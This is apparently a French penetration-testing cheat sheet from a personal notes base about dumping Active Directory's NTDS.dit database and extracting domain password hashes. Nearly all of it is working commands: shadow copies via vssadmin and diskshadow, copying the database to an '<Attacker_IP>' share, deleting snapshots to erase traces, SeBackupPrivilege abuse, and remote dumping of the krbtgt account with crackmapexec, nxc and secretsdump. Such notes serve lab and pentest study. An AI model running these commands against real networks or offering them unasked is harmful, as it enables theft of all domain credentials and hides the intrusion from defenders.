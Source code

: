 ```yaml
---
public: true
---
```

## Dump d'NTDS.dit
### Localement

#### Cliché instantané (vssadmin)

##### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

#### Cliché instantanné (diskshadow.exe)

##### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
 set verbose on
 set metadata C:\Windows\Temp\meta.cab
 set context clientaccessible
 set context persistent
 begin backup
 add volume C: alias cdrive
 create
 expose %cdrive% E:
 end backup
 exit
```

Effacer ses traces : après avoir copié ntds.dit (ou autre) on pourra supprimer le cliché instantané ainsi que son exposition via le lecteur E:

```shell
diskshadow.exe
 unexpose e: 
 list shadows all# affiche la liste des snapshots si on n'a pas noté l'ID lors de sa création
 
 DELETE SHADOWS Exposed E: 
 # ou 
 DELETE SHADOWS SET {446f7942-bd76-41a9-aff7-d7c854abe93f}
```

##### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Exploitation des privilèges Windows]])

```
# cas 1 : Robocopy "sait" utiliser le privilège SeBackupPrivilege
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

# cas 2 : sans robocopy, ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#### Création d'une sauvegarde via ntdsutil (non testé)

Le fichier créé dans ce format pourra par la suite être exploité pour fournir des métriques sur différents éléments liés aux mots de passe et leur robuster via l'outil Domain Password Audit Tool (DPAT) <https://github.com/clr2of8/DPAT>

```shell
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

### A distance

```
## utilise à distance ntdsutil
nxc smb ip -u user -p pass -M ntdsutil

crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds

secretsdump.py -just-dc-user $AD_DOMAIN/krbtgt  $AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP

```

## Extraction des informations d'identification (credentials)

## Localement
### Extraction des informations présentes dans NTDS.dit via DSInternals

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

### A distance
#### Extraction des hash d'un dump NTDS.dit via secretsdump.py

Prérequis : disposer d'NTDS.dit et du dump SYSTEM via `reg save HKLM\SYSTEM SYSTEM.SAV`

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM.sav -hashes lmhash:nthash LOCAL
```
